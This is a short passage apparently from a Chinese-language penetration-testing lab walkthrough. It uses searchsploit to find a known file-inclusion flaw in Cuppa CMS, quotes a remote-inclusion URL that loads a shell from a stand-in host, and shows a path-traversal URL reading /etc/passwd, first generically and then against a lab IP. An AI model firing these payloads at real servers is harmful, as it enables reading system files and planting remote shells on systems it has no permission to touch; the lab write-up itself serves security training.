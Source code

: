 查找漏洞版本

```
┌──(root💀kali)-[/tmp]
└─# searchsploit cuppa                                                                                                                                                                                                                 
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                                                                                                            | php/webapps/25971.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp]
└─# searchsploit -m php/webapps/25971.txt
  Exploit: Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion
      URL: https://www.exploit-db.com/exploits/25971
     Path: /usr/share/exploitdb/exploits/php/webapps/25971.txt
File Type: C++ source, ASCII text, with very long lines

Copied to: /tmp/25971.txt

```

> exp
>
> ```
> http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
> http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
> ```

```
http://192.168.32.203/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

![image-20220906103710819](../../.gitbook/assets/image-20220906103710819.png)
